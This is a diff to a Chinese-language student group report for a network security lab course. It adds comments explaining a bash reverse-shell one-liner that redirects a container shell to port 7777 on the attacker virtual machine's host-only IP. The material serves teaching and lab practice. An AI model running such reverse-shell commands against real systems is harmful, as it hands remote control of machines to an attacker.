

Before and after one commit to lihan3238/Network-Security-Comprehensive-Practice, a Markdown page: docs/网络安全综合实践小组报告.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
docs(小组报告): 添加了反弹 shell 细节

````diff
--- a/docs/网络安全综合实践小组报告.md
+++ b/docs/网络安全综合实践小组报告.md
@@ -416,6 +416,10 @@ sudo docker exec -it agitated_curie /bin/bash
 # 进入容器后, 执行 :
 bash -i >& /dev/tcp/192.168.5.134/7777 0>&1
 # 这里的 192.168.5.134 为 attacker 虚拟机 host-only 网卡对应 IP 地址
+
+# 启动一个交互式的 bash shell. 将该 shell 的标准输入、标准输出和标准错误重定向到通过 TCP 连接到 192.168.5.134:7777 的套接字
+# 这样，任何从 192.168.5.134 上的 7777 端口发送的数据都会作为 bash shell 的输入，bash shell 的输出也会发送回 192.168.5.134 上的 7777 端口
+
 ```
 
 录制的 asciinema 视频 :
````
